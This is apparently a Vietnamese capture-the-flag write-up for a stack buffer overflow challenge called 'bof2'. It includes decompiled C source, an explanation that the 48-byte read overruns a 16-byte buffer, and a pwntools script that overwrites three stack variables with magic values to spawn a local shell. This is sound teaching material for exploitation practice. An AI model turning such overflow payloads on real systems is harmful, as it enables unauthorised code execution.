



**1. Tìm lỗi**

Dùng lệnh 'file' để kiểm tra



Ta thấy là file 64bit nên mở bằng IDA64 ta có source như sau:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[16]; // [rsp+0h] [rbp-30h] BYREF
  __int64 v5; // [rsp+10h] [rbp-20h]
  __int64 v6; // [rsp+18h] [rbp-18h]
  __int64 v7; // [rsp+20h] [rbp-10h]
  int v8; // [rsp+2Ch] [rbp-4h]

  v8 = 0;
  v7 = 0LL;
  v6 = 0LL;
  v5 = 0LL;
  init(argc, argv, envp);
  printf("> ");
  v8 = read(0, buf, 0x30uLL);
  if ( buf[v8 - 1] == 10 )
    buf[v8 - 1] = 0;
  printf("a = %ld\n", v7);
  printf("b = %ld\n", v6);
  printf("c = %ld\n", v5);
  if ( v7 == 322376503 && v6 == 3735928559LL && v5 == 3405691582LL )
    system("/bin/sh");
  return 0;
}
```

Ta thấy biến buf được khai báo 16 byte nhưng cho phép nhập 0x30 = 48 byte nên nghĩ tới lỗi bof

Dùng lệnh 'checksec' để kiểm tra ta thấy



Ta thấy canary đang ở trạng thái disabled nên có thể khai thác qua lỗi bof

**2. Ý tưởng**

Ta dã xác định đươc lỗi bof nên sẽ tận dụng lỗi đó để nhập tràn biến buf rồi chèn các giá trị phù hợp cho v5, v6, v7 để lấy shell

**3. Viết script**



Ta thấy các giá trị phù hợp là: 

v5 = 0xcafebabe

v6 = 0xdeadbeef

v7 = 0x13371337

Ta có script như sau:

```
from pwn import *

r = process("./bof2")

v5 = 0xcafebabe
v6 = 0xdeadbeef
v7 = 0x13371337
payload = b'a'*16 + p64(v5) + p64(v6) + p64(v7)
r.sendline(payload)
r.interactive()
```

**4. Lấy flag**

